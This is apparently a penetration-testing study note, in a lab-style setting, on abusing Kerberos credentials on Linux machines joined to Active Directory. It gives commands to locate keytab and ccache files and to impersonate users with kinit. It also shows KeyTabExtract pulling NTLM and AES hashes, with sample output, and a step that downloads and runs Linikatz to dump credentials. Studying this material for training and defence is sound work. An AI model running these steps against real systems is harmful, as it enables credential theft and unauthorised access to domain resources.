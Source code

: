# Content 
- [Identifying Linux and Active Directory Integration](#identifying-linux-and-active-directory-integration)
  - [realm - Check If Linux Machine is Domain Joined](#realm---check-if-linux-machine-is-domain-joined)
  - [command line - Check if Linux Machine is Domain Joined](#command-line---check-if-linux-machine-is-domain-joined) 
- [Finding Kerberos Tickets in Linux](#finding-kerberos-tickets-in-linux)
  - [Finding Keytab Files](#finding-keytab-files)
  - [Finding ccache Files](#finding-ccache-files)
- [Abusing KeyTab Files](#abusing-keytab-files)
- [Abusing Keytab ccache](#abusing-keytab-ccache)
- [Linikatz](#linikatz)


## Identifying Linux and Active Directory Integration

### realm - Check If Linux Machine is Domain Joined
```
realm list
```

### command line - Check if Linux Machine is Domain Joined
we can also look for other tools used to integrate Linux with Active Directory such as `sssd` or `winbind`. 

#### check whether the Linux server is integrated with AD using PS Command
```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ ps -ef | grep -i "winbind\|sssd"
root     29912     1  0  2017 ?        00:19:09 /usr/sbin/sssd -f -D
root        2141    2140  0 Sep29 ?        00:00:08 /usr/libexec/sssd/sssd_be --domain inlanefreight.htb --uid 0 --gid 0 --logger=files

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ ps -ef | grep -i "winbind\|sssd"
root       676 21055  0  2017 ?        00:00:22 winbindd
```
#### Check whether the Linux server is integrated with AD using id Command
```powershell
$ id daygeek
uid=1918901106(daygeek) gid=1918900513(domain users) groups=1918900513(domain users)
```
#### check whether the Linux server is integrated with AD using nsswitch.conf file
```powershell
## You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files sss
shadow:         files sss

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:     files [SUCCESS=return] winbind

# You might get the output similer to below if the system is integrated with AD using ldap service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files ldap
shadow:         files ldap
```

#### check whether the Linux server is integrated with AD using system-auth file

```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_sss.so use_first_pass

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_winbind.so cached_login use_first_pass

# You might get the output similar to below if the system is integrated with AD using ldap service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_ldap.so cached_login use_first_pass

```


## Finding Kerberos Tickets in Linux

### Finding Keytab Files
- A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password).
- You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password.
- Keytab files can be created on one computer and copied for use on other computers because they are not restricted to the systems on which they were initially created.
 
#### Using Find to Search for Files with Keytab in the Name
- The ticket is represented as a keytab file located by default at /etc/krb5.keytab and can only be read by the root user.
```powershell
$ find / -name *keytab* -ls 2>/dev/null

   131610      4 -rw-------   1 root     root         1348 Oct  4 16:26 /etc/krb5.keytab
   262169      4 -rw-rw-rw-   1 root     root          216 Oct 12 15:13 /opt/specialfiles/carlos.keytab
```
#### Identifying Keytab Files in Cronjobs
- we notice the use of kinit, which means that Kerberos is in use. kinit allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache (ccache file). 
- We can use kinit to import a keytab into our session and act as the user.

```powershell
$ crontab -l

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```


### Finding ccache Files
- Linux machines store Kerberos tickets as ccache files in the `/tmp` directory.
- By default, the location of the Kerberos ticket is stored in the environment variable `KRB5CCNAME`.
- `KRB5CCNAME` variable can identify if Kerberos tickets are being used or if the default location for storing Kerberos tickets is changed.
- These ccache files are protected by reading and write permissions, but a user with elevated privileges or root privileges could easily gain access to these tickets

#### Reviewing Environment Variables for ccache Files.
```powershell
$ env | grep -i krb5

KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

#### Searching for ccache Files in /tmp
```
$ ls -la /tmp

-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

## Abusing KeyTab Files
- The first thing we can do is impersonate a user using `kinit`.
- To use a keytab file, we need to know which user it was created for using `klist`
### Listing keytab File Information
```powershell
$ klist -k -t 

/opt/specialfiles/carlos.keytab 
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

### Impersonating a User with a keytab
Note: To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable KRB5CCNAME.
```powershell
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
$ smbclient //dc01/carlos -k -c ls
```

### Keytab Extract
We can attempt to crack the account's password by extracting the hashes from the keytab file using [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). 
```powershell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
- With the NTLM hash, we can perform a Pass the Hash attack. 
- With the AES256 or AES128 hash, we can forge our tickets using Rubeus PtT.
- or attempt to crack the hashes to obtain the plaintext password.


## Abusing Keytab ccache
- klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work.
- ccache files are temporary. They may change or expire if the user no longer uses them or during login and logout operations.
```powershell
ls -la /tmp
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist
smbclient //dc01/C$ -k -c ls -no-pass
```

## Linikatz
- [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. 
- In other words, Linikatz brings a similar principle to Mimikatz to UNIX environments.

```powershell
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```
